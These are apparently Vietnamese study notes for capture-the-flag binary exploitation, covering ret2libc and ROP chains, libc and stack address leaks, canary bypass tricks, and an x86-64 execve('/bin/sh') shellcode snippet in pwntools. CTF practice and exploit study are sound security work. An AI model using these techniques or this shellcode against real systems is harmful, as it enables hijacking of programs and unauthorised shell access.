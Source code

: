 # Ret2LIBC-ROP

## [0] Overview:
- pwntools '/bin/sh':
```python
next(libc.search(b'/bin/sh'))
```
- pwntools `flat()` điền byte là p64() hoặc p32() theo cấu trúc chương trình là x86 hay x86_64, VD:`[convert - ASCIS 2022]` .
- [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
- Để ý cái lỗi dùng chung stack giữa hai hàm đều được gọi từ hàm main dẫn đến giá trị được tham chiếu của hàm này nếu không đặt lại giá trị thì sẽ mang giá trị được tạo bởi hàm kia.
- Một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
- Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
    * VD: `syscall ; ret` [dicectf 2023 - bop].
    * gadget push rax;ret
    * jmp rsp
    * ...
```python
import pwn
rop = pwn.ROP(libc, base=<address_overwrite>)
rop.call(rop.find_gadget(["syscall", "ret"]))
print(rop.dump())
```
- Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
```
STACK:
1. địa chỉ lệnh "ret"
2. địa chỉ lệnh "pop rdi, ret"
3. địa chỉ lưu chuỗi 
4. địa chỉ hàm gets

5. địa chỉ lệnh "ret"
6. địa chỉ lệnh "pop rdi, ret"
7. địa chỉ muốn được in (đọc chuỗi)
8. địa chỉ hàm printf 
# leak = printf thì sau printf lại phải dùng ret
9. địa chỉ lệnh "ret"
10. địa chỉ nào đó muốn return về.
```
- Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, -, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF .
- Leak được LIBC thì có thể leak được địa chỉ thuộc stack thông qua biến environ trong LIBC.
- Có thể leak libc thông qua đọc `/proc/self/maps`

```python
...
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...

shellcode = asm('''
        instruction assembly
        ...
''')

OR

context.arch = 'amd64'
shellcode = asm(
    f'''
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    xor rsi, rsi
    xor rax, rax
    add al, 0x3b
    syscall
    ''')
```

- `Chall pwn07 - whitehat`: Dùng dup2(0, 1) để mở lại stdout, leak giá trị.

## [1] Technique:
- [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
- [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
- BRUTEFORCE - `TWOSHOT - KMACTF2022`
- ...

